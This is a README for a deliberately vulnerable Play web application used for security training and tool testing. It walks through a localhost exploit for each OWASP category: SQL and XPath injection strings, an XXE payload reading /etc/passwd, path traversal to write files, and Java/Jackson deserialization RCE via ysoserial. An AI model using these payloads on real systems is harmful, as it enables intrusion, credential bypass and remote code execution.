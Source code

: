 # Package

```

$ sbt stage
$ file ./target/helloshiftleftplay-0.0.0-SNAPSHOT.jar

```

# Run

```

$ sbt run

```

# Http routes


See routes at [config/routes](config/routes).

Use `localhost` as host name in the URLs

To interact with the endpoints use `curl` (or any other tool)

+ GET /account
+ GET /createCustomer
+ POST /account `curl localhost:8082/account -X POST -H "Content-Type: application/json" --data '{ "accountNumber": 1337, "routingNumber": 1222 }'`
+ GET /customers 
+ GET /customersXML


# Package standalone (not officially supported by Play)

```

$ sbt assembly
$ java -Dplay.server.http.port="8082" -Dplay.server.http.address="127.0.0.1" -jar ./target/HelloshiftleftPlay-assembly-0.0.0-SNAPSHOT.jar

```

# Vulnerability coverage table
The following table shows vulns category implemented in HSL grouped according to OWASP standards.

| OWASP category              | Vuln description                                  |
| ----------------------------|-------------------------------------------------- |
| A1-Injection                | Sql Injection                                     |
| A2-Broken Auth              | missing HttpOnly Cookie                           |
| A3-Sensitive Data Exposure  | Weak crypto, clear text storage of sensitive data |
| A4-XXE                      | XML XXE attack                                    |
| A5-Broken Access Control    | Path traversal                                    |
| A6-Sec misconfiguration     | not present yet                                   |
| A7-XSS                      | reflected XSS attack                              |
| A8-Insecure deserialization | Java deserialization attacks                      |
| A9-Known Vulnerabilities    | we use a vulnerable version of jackson            |

# A1 SQL Injection

There are two SQL injection vulns, the first one in `getRawCustomer` and the second in `getRawCustomerByName`.
To exploit it you can interact with the endpoint in this way:

Normal behavior: ```curl "http://localhost:8082/rawcustomersbyname/Joe"```

Exploit: ```curl "http://localhost:8082/rawcustomersbyname/Joe%20'%20or%20'1'='1"```

# A2 missing HttpOnly cookie flag

The endpoint `/admin/login` reachable via POST request, does not set the cookie as HttpOnly.

# A4 XXE

The endpoint `/customersXML` suffers from an XXE vulnerabily.

```
curl  \
  --header "Content-type: application/xml" \
  --request GET \
  --data '<name>Guillaume</name>' \
  http://localhost:8082/customersXML
```

To exploit the XXE modify the payload above with the malicious one below:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <name>&ent;</name>
</userInfo>
```
Then you can use the following `curl` command to trigger the vulnerability:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: localhost:8082' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-GB,en;q=0.5' -H $'Accept-Encoding: gzip;q=0,deflate,sdch' -H $'Content-type: application/xml' -H $'Cookie:' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Length: 168' \
    --data-binary $'<!--?xml version=\"1.0\" ?-->\x0d\x0a<!DOCTYPE replace [<!ENTITY ent SYSTEM \"file:///etc/passwd\"> ]>\x0d\x0a<userInfo>\x0d\x0a <firstName>John</firstName>\x0d\x0a <name>&ent;</name>\x0d\x0a</userInfo>' \
    $'http://localhost:8082/customersXML'
```


As result, the output will contain the passwd file.

# A5 directory traversal

`saveSettings` contains a arbitrary file write vulnerability. The file relative path is extracted from the attacker controllable cookies.
To exploit the vuln use the `filewriteexploit.py` script, as shown below:

```
python dirtraversalexploit.py http://localhost:8082/saveSettings ../../../../../../../tmp/pwn asd
```
The above script will send the payload to the url specified as first argument, the relative path that will be used for the 
directory traversal is passed as second argument.

# A7 XSS

There is a reflected XSS in `/consumers/`. To exploit it visit the `/createConsumer` page and specify any malicious payload in the form.

# A8 Java deserialization 

`/unmarsh` retrives the `lol` parameter from the received POST request, decode64 its values and finally calls `readObject`.
To create the payload run `DoSerializeRCE` and then use its output to build the POST query as following:

```
curl localhost:8082/unmarsh  -X POST --data-urlencode "lol=rO0ABXNyABNEb1NlcmlhbGl6ZVJDRSRFdmlsx/E6K8+e2zIDAAB4cHg="
``` 
```
curl localhost:8082/unmarsh -X POST --data-urlencode "lol=`cat commons5.b64`"
```

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 /usr/bin/xcalc > commons5.bin
base64 commons5.bin | tr -d '\040\011\012\015'> commons5.b64
```


# A9 Jackson

The route `/bean1599` accepts POST operations and deserializes via Jackson the received body data. 
The file `exploit.json` contains the payload for CVE-2017-17485. 
Instead, the file `exploitold.json` provides the payload for CVE-2017-7525.

To run the exploit, first run the server with `sbt run` then type following commands:

```
export payload=`cat exploit.json`
curl localhost:8082/bean1599 -X POST -H "Content-Type: application/json" -d "$payload"
``` 

+ https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
+ https://github.com/irsl/jackson-rce-via-spel




# XPath injection

After starting the service it is possible to bypass the credential check with this URL: http://localhost:8082/checkAccount/admin/x'%20or%20'1'='1 . This results in the following xpath query: `//user[username/text()='admin' and password/text()='x' or '1'='1']` and the message `Hello admin`.

If you provide wrong credentials the handler returns `Error with your credentials!`. Syntax errors as http://localhost:8082/checkAccount/admin/x' result in the error message `A server error occurred: javax.xml.xpath.XPathExpressionException: javax.xml.transform.TransformerException: misquoted literal... expected single quote!` 


